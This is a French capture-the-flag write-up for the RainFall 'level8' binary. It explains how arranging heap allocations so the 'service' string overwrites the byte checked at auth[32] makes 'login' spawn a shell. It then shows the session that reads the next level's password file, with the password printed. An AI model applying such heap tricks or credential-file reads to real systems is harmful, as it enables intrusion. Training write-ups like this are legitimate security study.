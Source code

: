 ﻿Dans cet exo, on a juste une fonction main.
Elle boucle a l'infini et attend une entree utilisateur.

Il y a deux variables globales: `auth` et `service`.

Il existe plusieurs commandes:
- `auth ` => `auth = malloc(4); if (strlen(input) < 30) strcpy(auth, input + 5);`
- `reset` => `free(auth);`
- `servic` => `service = strdup(input + 7);`
- `login` => `if (auth[32] != '\0') system("/bin/sh");`

On voit que la fonction `login` va appeler `system("/bin/sh")` si le 33eme caractere de `auth` est different de 0.  
En testant, je vois que les addresses allouees par `malloc` ou `strdup` augmentent de 16 a chaque fois.  
Donc en soi on peut mettre dans `auth` une addresse et ensuite strdup dans `service` 16 characteres.  
Ainsi quand on execute `login`, le 33eme caractere de `auth` sera egal au dernier charactere qu'on a mis dans `service`.  

On peut donc faire notre exploit:
```bash
level8@RainFall:~$ ./level8
(nil), (nil)
auth test
0x804a008, (nil)
service 0123456789012345x
0x804a008, 0x804a018
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
$
```
